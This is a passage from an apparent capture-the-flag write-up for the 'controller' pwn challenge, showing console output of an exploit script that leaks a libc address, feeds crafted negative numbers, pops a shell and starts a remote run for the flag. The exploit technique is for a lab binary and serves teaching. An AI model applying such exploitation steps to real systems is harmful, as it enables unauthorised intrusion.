 ```console
Do you want to report the problem?
>
 Problem ingored

[*] puts locate on: 0x7fdd3f38caa0
[*] puts libc.address: 0x7fdd3f30c000

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗

>
3
 -1 * -65338 = 65338
Something odd happened!
Do you want to report the problem?
>
[*] Switching to interactive mode
 Problem ingored
$ ls
controller  exploit.py    libc.so.6
```

Great, we pop a shell.

Let's run it with argument ```REMOTE=1``` to get the flag:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/controller]
└──╼ $ python3 exploit.py REMOTE=1 
[*] '/ctf_htb/cyber_apocalypse/pwn/controllercontroller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf_htb/cyber_apocalypse/pwn/controllercontroller': pid 16379

👾 Control Room 👾

Insert the amount of 2 different types of recources:
-1 -65338
 Choose operation:

1. ➕

2. ➖

3. ❌

4. ➗
```